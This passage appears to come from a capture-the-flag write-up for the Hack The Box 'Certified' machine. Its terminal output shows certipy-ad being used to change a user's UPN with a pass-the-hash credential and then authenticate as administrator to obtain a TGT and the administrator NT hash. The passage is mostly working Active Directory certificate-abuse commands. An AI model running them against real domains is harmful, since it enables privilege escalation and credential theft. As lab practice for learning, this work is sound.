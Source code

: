 ```bash
┌──(root㉿n0m4d)-[/host_data]
└─# certipy-ad account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'

```

![](Assets/Pasted%20image%2020250707134046.png)

```bash
┌──(root㉿n0m4d)-[/host_data]
└─# faketime "$(ntpdate -q DC01.certified.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certified.htb'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

```

![](Assets/Pasted%20image%2020250707134217.png)


# Creds
